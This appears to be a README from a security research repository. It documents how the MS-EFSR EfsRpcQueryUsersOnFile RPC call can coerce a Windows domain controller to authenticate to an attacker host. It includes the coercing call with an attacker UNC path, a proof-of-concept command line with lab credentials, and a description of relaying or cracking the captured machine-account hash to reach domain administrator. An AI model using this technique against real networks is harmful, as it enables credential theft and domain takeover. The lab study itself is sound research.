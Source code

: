 # MS-EFSR - Remote call to EfsRpcQueryUsersOnFile (opnum 6)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Function name**: [`EfsRpcQueryUsersOnFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea)

 - **Function operation number**: `6`

 - **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible from:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcQueryUsersOnFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcQueryUsersOnFile("\\\\192.168.2.51\\share\\file.txt\x00")
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcQueryUsersOnFile(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [out] ENCRYPTION_CERTIFICATE_HASH_LIST** Users
);
```


 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **Users**: A list of certificate hashes, represented by an `ENCRYPTION_CERTIFICATE_HASH_LIST` structure.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcQueryUsersOnFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/a058dc6c-bb7e-491c-9143-a5cb1f7e7cea